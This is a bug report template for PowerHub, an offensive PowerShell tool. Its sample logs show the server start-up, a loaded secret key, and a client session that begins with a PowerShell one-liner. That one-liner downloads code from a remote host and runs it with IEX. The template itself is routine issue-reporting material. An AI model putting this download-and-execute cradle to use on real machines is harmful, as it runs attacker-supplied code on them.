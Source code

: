 ```yaml
---
name: Bug report
about: Create a report to help us improve
title: ''
labels: bug
assignees: ''

---
```


Thanks for reporting a bug! To make the report more useful, please fill out the following fields and delete this line. Also, [read this](https://adrianvollmer.github.io/PowerHub/latest/contrib.html).

**Describe the bug**
A clear and concise description of what the bug is.

**To Reproduce**
Steps to reproduce the behavior:
1. Go to '...'
2. Click on '....'
3. Scroll down to '....'
4. See error

**Expected behavior**
A clear and concise description of what you expected to happen.

**Logs (please complete the following information):**
Python log:
```
$ powerhub -d 192.168.1.1
I 2023-02-27 21:54:20 dhkex.py:19 Generating new Diffie-Hellman parameters
D 2023-02-27 21:54:20 tools.py:106 Loaded secret key: S0H5CrNL1aWshJnCMwnCZ6Cg9HlTztuO
I 2023-02-27 21:54:20 modules.py:52 Importing modules...
[...]

PowerShell log:
```
PS C:\Users\avollmer> Pl=New-Object Net.WebClient;IEX $Pl.DownloadString('http://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
[...]
```

**Python versions (please complete the following information):**
 - Output of `python --version`:
 - Output of `pip freeze`:
   ```
   $pip freeze
   [...]
   ```

**PowerShell versions (please complete the following information):**
 - Output of `$PSVersionTable`

**Additional context**
Add any other context about the problem here.
